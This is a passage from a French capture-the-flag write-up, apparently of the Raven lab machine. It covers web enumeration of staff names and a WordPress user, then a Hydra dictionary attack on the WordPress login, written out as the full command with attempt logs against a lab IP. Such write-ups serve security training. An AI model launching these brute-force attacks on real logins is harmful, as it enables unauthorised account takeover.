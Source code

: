 ```console
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
--snip--
```

## Attaque par dictionnaire sur WordPress et SSH avec Hydra

La page d'index est effectivement une présentation des activités de l'entreprise _Raven Security_ ; il n'y a pas de fichier ```robots.txt```, mais une recherche manuelle permet de lister les pages suivantes : ```index.html```, ```about.html```, ```service.html```, ```contact.php``` et ```team.html```.

Sur cette dernière page Web, l'identité de chaque membre du staff est dévoilée, et peut potentiellement correspondre à des logins, très utiles pour se connecter en SSH par exemple (Ethel Davis, Rodney Cooper, Dora Walker et Lena Keller). Quant à l'onglet Blog, il renvoie vers un site WordPress, quasi-vide.

![Affichage de l'image INDEX-Raven.png](INDEX-Raven.png)

Les outils [__DIRB__](https://tools.kali.org/web-applications/dirb), [__nikto__](https://cirt.net/nikto2-docs/) et [__WordPress Security Scanner__](https://wpscan.org/) n'ont rien révélé de spécial ; en revanche, une recherche manuelle a permis de trouver le nom d'un utilisateur, ```michael```, qui a rédigé le premier post du blog. Deux attaques avec l'outil [__Hydra__](http://sectools.org/tool/hydra/) sont alors lancées : l'une sur le service SSH à la recherche du mot de passe Unix du compte ```michael``` (s'il existe), l'autre sur l'interface d'administration du WordPress à la recherche du mot de passe du compte ```michael``` (qui, lui, existe bien).

```console
root@blinils:~# hydra -l michael -P 500-worst-passwords.txt 192.168.56.105 \
-V http-form-post '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

--snip--

[DATA] attacking http-post-form://192.168.56.105:80//wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "123456" - 1 of 500 [child 0] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "password" - 2 of 500 [child 1] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "12345678" - 3 of 500 [child 2] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "1234" - 4 of 500 [child 3] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "pussy" - 5 of 500 [child 4] (0/0)
--snip--
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "mistress" - 496 of 500 [child 3] (0/0)
[ATTEMPT] target 192.168.56.105 - login "michael" - pass "phantom" - 497 of 500 [child 6] (0/0)
```